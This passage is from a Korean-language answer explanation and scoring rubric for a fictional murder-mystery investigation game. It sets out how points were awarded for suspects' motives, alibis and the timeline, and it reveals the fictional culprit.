4. 이태규 : 이민성이 이태규의 비리 자료를 가지고 있었음 / 이태규가 강예은과 불륜을 하고 있었음
5. 강예은 : 불륜 사실 발각 후 이혼 위기
6. 최옥순 : 없음

민재훈, 오세린, 윤하진은 피의자 신문조서에서 드러난 이민성에 대한 원한을 제시하면 정답으로 처리했습니다.

이태규는 ‘이민성이 이태규의 비리 자료를 가지고 있었음’ 또는 ‘이태규가 강예은과 불륜을 하고 있었음’ 중 하나를 선택해 제시하기만 하면 됐으며, 그에 맞는 증거를 제시해야 했습니다.

강예은에 대해서는 불륜을 했다는 사실 말고도, 불륜이 이민성에게 발각되었다는 상황이 중요하기 때문에, 이혼 신고서를 필수로 포함하도록 했습니다.

최옥순은 수집한 정보에서 드러나는 살해 동기가 없기 때문에 빈 칸으로 두어도 150점의 점수를 부여하도록 했습니다. 그러나 절도 경력이나 중고 물품 판매 기록을 바탕으로 최옥순의 물건 절도가 발각되었음을 추론해 볼 수 있으므로 해당 내용을 제시해도 정답으로 인정했습니다.

#### 3. 용의자의 살해 의지 표상


용의자의 살해 의지 표상은 용의자 한 명당 60점씩, 총 360점이 배정되었습니다.

수집할 수 있는 정보에서, 용의자 6인 중 살해 의지를 드러내는 것은 민재훈과 윤하진 뿐이며, 각각 위 사진에 있는 표의 내용대로 제시해야 했습니다.
다른 인물의 경우 빈 칸으로 제시해도 각각 60점을 부여했으나, 추측으로 작성한 경우 ‘살해 의지 표상이 맞는가?’라는 기준에 맞춰 감점했습니다.

#### 4. 알리바이 검증


알리바이 검증은 살해 동기 추정과 마찬가지로 용의자 한 명당 150점씩, 총 900점이 배정되었습니다. 이 가운데 용의자의 주장 50점, 진위 여부 판단 20점, 근거 제시 80점이었습니다.

각 용의자의 알리바이 주장은 [수사 자료실-2]에서 얻을 수 있는 피의자 신문조서에서 찾아와 작성해야 했습니다.
각 주장에 대해 진위 여부를 판별할 수 있는 근거가 명확하게 있었기 때문에 정보를 잘 수집했다면 쉽게 점수를 받을 수 있었던 항목이라고 생각합니다.

#### 5. 타임라인 재구성


타임라인 재구성은 타임라인의 일곱 항목을 채점했으며, 최종 범인 지목에 30점, 각 항목에 90점이 배정되었습니다.

이민성을 계단에서 살해한 범인은 이태규입니다. 민재훈, 오세린, 윤하진은 알리바이가 증명되었으며, 강예은은 이민성 사망 시 계단 아래에 있었고, 최옥순은 사건 발생 전에 건물을 나왔기 때문입니다. 따라서 [CCTV 관리실-3]에서 계단 위의 신원 미상의 인물이 이태규였던 것으로 추정해 볼 수 있습니다.

타임라인은 다음과 같은 7개로 구성됩니다.

1. 이태규의 건물 입실
2. 이민성의 건물 입실
3. 이태규의 살해
4. 이태규의 이민성 교수 연구실 입실
5. 이태규의 비리 증거 삭제
6. 이태규의 이민성 교수 연구실 퇴실
7. 이태규의 건물 퇴실

[학교 전산망-4]의 출입 기록, [CCTV 관리실-3] 사진 파일명의 타임스탬프, [전공 강의실-5]의 파일 삭제 시각을 이용해 작성해야 하는 항목이었습니다.

다만, “이태규의 이민성 살해”의 경우, 사진이 찍힌 시간에 이민성이 죽었다고 말할 수 없으므로, 초 단위 시각을 쓰지 않아도 정답으로 인정했습니다.
